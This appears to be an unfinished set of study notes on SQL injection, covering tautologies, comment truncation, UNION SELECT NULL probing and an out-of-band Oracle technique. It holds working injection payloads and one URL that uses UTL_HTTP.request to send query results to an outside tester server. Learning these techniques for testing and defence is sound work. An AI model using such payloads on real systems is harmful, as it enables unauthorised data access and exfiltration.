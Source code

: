   In order to avoid that, we leverage the *SQLi Balacing Act* together with a *Binary Interference*
  We enter **Thomas' OR '1'='1**
  
  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Thomas' OR '1'='1';
  ```

  We try to do *String injections*
  We enter **Tho'/\**/'mas**

  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Tho'/**/'mas' OR '1'='1';
  ```

- **';#**,**';--**,**;%00**,**`** : Closes the string and closes the SQL statement and comment the rest of it
  We enter **Thomas'; --**

  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Thomas'; --';
  ```

As you can see, **--** and **#** can be really be helpfull as they don't need to be delimited such as **\'\/\*** **\*/'**

- **'*'**:
  -> Mean
- **'^'**:
  -> Mean regular expression ?
- **'&'**:

2) Leveraging UNION and NULL

- UNION: Column types needs to be compatible
- NULL: Matches any types of data
  -> SELECT ..... **' UNION SELECT NULL, NULL, NULL, ...**

> / / / To Finish

###### Out of Band SQL injections

> / / / To Finish

The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

- Using HTTP
  - Oracle : http://www.victom.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--
  - MySQL: Not found

  
###### Error-Based SQL injections
